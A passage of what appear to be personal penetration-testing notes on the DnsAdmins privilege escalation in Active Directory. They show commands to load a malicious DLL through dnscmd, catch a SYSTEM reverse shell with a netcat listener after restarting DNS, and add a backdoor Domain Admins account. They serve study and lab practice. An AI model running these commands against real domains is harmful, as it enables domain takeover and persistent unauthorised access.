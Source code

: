 Now that the *exploit.dll* has been uploaded. we will not use the **dnscmd.exe** tool from the Evil-**WinRM** session to register the DLL

<u>Run the following</u> 
```powershell
dnscmd.exe <DCName> /config /serverlevelplugindll <PathToDLL>
```
![[Pasted image 20231222023303.png]]
> The DLL was successfully added to the registry

Now we set up a **netcat** listener on the attacking system. we will be using the same port we specified in the **msfvenom** command: ~

<u>Run from attack machine</u>
```bash
nc -lvnp 80
```
> Dw if its not doing anything we need to restart the DNS service from **WinRM** session.

![[Pasted image 20231222024133.png]]

<u>From WinRM</u>
```powershell
sc.exe stop dns
sc.exe start dns
```

when the dns service restarts the netcat reverse shell should connect as SYSTEM.
![[Pasted image 20231222040258.png]]

From here domain administrator persistence can be achieved, and a new user can be created and added to the Administrator privilege.
```powershell
net user Barney Password123 /add
net group "Domain Admins" /add Barney
```

Reference - [Here - Pentest-Everything](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/privilege-escalation/dnsadmin)

## 3.1 VULNERABLE DCSYNC
----
Reference - [DCSync](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/credential-dumping/dcsync)

